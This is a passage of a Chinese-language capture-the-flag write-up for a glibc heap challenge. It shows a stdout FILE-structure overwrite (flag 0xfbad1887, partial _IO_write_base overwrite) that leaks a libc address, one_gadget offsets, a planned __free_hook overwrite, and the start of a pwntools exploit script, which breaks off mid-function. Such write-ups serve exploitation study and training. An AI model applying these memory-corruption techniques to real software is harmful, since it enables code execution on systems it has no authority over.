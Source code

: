 --------

如此一来，就能够改到`_IO_2_1_stdout`结构体的所有内容，但`payload`如何设置才能使程序泄露地址呢:  

 - 设置`flag = 0xfbad1887`
 - 设置`_IO_read_ptr=0`, `_IO_read_end=0`, `_IO_read_base=0`, `_IO_write_base`的最后两位为`0x58`
 	 - 即: `payload = p64(0)*3 + p8(0x58)`

之后当程序调用`puts`函数时，就会额外打印`_IO_write_base`到`_IO_write_ptr`之间的所有内容，往往第一个输出的值是`_IO_file_jumps`的地址.

```py
payload = p64(0)*3 + p8(0x58)
reallocN(0xa0, payload)
leak = uu64(rn(6))
if leak >> 40 != 0x7f:
	raise Exception("error")
lg("leak")
libc_addr = leak - 0x3e82a0
one_gadget= libc_addr + 0x4f3c2
lg("libc_addr")
```

--------

此时`chunk_ptr`指在`_IO_2_1_stdout`结构体上，考虑调用题目提供的辅助函数清空`chunk_ptr`，然后直接打`free_hook`即可.

--------

#### exp.py

```py
#!/usr/bin/python3
#-*- coding: utf-8 -*-
from pwn import *

context.log_level = 'debug'
context.arch='amd64'
context.terminal = ['tmux','sp','-h','-l','120']

# remote_service = ""
# remote_service = remote_service.strip().split(" ")
# p = remote(remote_service[0], int(remote_service[1]))
filename = "./pwn"
e = ELF(filename, checksec=False)
l = ELF(e.libc.path, checksec=False)

rl = lambda a=False : p.recvline(a)
ru = lambda a,b=True : p.recvuntil(a,b)
rn = lambda x : p.recvn(x)
sn = lambda x : p.send(x)
sl = lambda x : p.sendline(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)
irt = lambda : p.interactive()
dbg = lambda text=None : gdb.attach(p, text)
lg = lambda s : log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
uu32 = lambda data : u32(data.ljust(4, b'\x00'))
uu64 = lambda data : u64(data.ljust(8, b'\x00'))
def debugPID():
    lg("p.pid")
    input()

def freeN():
	ru(b">>")
	sl(b"2")
def reallocN(size, content):
	ru(b">>")
```